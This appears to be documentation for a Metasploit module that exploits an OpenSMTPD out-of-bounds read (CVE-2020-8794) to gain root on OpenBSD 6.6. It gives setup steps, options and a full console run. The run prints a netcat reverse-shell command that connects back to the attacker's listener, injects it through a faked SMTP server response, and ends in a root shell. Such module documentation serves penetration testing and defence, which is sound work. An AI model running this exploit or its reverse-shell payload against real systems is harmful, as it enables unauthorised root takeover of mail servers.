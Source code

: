 ## Vulnerable Application

### Description

This module exploits an out-of-bounds read of an attacker-controlled
string in OpenSMTPD's MTA implementation to execute a command as the
root user.

### Setup

1. Download [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system

### Targets

```
Id  Name
--  ----
0   OpenSMTPD < 6.6.4 (new grammar)
1   OpenSMTPD < 6.6.4 (old grammar)
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**SESSION**

Set this to a valid session ID on an OpenBSD target.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/local/opensmtpd_oob_read_lpe
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > show missing

Module options (exploit/unix/local/opensmtpd_oob_read_lpe):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set session -1
session => -1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/local/opensmtpd_oob_read_lpe) > run

[+] mkfifo /tmp/aovyv; nc 172.16.249.1 4444 0</tmp/aovyv | /bin/sh >/tmp/aovyv 2>&1; rm /tmp/aovyv
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. OpenSMTPD 6.6.0 appears vulnerable to CVE-2020-8794
[*] Started service listener on 0.0.0.0:25
[*] Executing local sendmail(8) command: /usr/sbin/sendmail 'tlzlzenloqtauretns@[172.16.249.1]' < /dev/null && echo true
[*] Client 172.16.249.137:26887 connected
[*] Exploiting new OpenSMTPD grammar
[*] Faking SMTP server and sending exploit
[*] Sending: 220
[*] Expecting: /EHLO /
[+] Received: EHLO
[*] Sending: 250
[*] Expecting: /MAIL FROM:<[^>]/
[+] Received: foo.localdomain
MAIL FROM:<w
[*] Sending: 553-
553

dispatcher: local_mail
type: mda
mda-user: root
mda-exec: mkfifo /tmp/aumhem; nc 172.16.249.1 4444 0</tmp/aumhem | /bin/sh >/tmp/aumhem 2>&1; rm /tmp/aumhem; exit 0

[*] Disconnecting client 172.16.249.137:26887
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:37728) at 2020-03-03 14:48:18 -0600
[*] Server stopped.

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```
